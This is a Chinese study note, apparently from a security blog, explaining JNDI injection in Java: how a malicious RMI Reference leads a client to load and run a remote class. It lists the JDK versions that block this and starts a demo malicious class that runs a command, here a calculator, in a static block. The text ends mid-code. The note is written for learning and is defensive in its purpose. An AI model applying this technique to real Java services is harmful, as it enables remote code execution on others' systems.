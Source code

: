 ## JNDI注入

**文中环境代码上传到https://github.com/SummerSec/JavaLearnVulnerability/tree/master/RMI%20JRMP%20JNDI**

`此文只是一篇笔记，所以有点乱。`



将恶意的Reference类绑定在RMI注册表中，其中恶意引用指向远程恶意的class文件，当用户在JNDI客户端的lookup()函数参数外部可控或Reference类构造方法的classFactoryLocation参数外部可控时，会使用户的JNDI客户端访问RMI注册表中绑定的恶意Reference类，从而加载远程服务器上的恶意class文件在客户端本地执行，最终实现JNDI注入攻击导致远程代码执行

![image-20210427154417233](https://gitee.com/samny/images/raw/master/17u44er17ec/17u44er17ec.png)

### jndi注入的利用条件

- 客户端的lookup()方法的参数可控
- 服务端在使用Reference时，classFactoryLocation参数可控～

上面两个都是在编写程序时可能存在的脆弱点（任意一个满足就行），除此之外，jdk版本在jndi注入中也起着至关重要的作用，而且不同的攻击响亮对jdk的版本要求也不一致，这里就全部列出来：


- JDK 6u45、7u21之后：java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

 - JDK 6u141、7u131、8u121之后：增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。

- JDK 6u211、7u201、8u191之后：增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。


### jndi注入 demo

- 创建一个恶意对象

```
import javax.lang.model.element.Name;
import javax.naming.Context;
import java.io.BufferedInputStream;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.util.HashMap;

public class EvilObj {
    public static void exec(String cmd) throws IOException {
        String sb = "";
        BufferedInputStream bufferedInputStream = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());
        BufferedReader inBr = new BufferedReader(new InputStreamReader(bufferedInputStream));
        String lineStr;
        while((lineStr = inBr.readLine()) != null){
            sb += lineStr+"\n";

        }
        inBr.close();
        inBr.close();
    }

    public Object getObjectInstance(Object obj, Name name, Context context, HashMap<?, ?> environment) throws Exception{
        return null;
    }

    static {
        try{
            exec("gnome-calculator");
```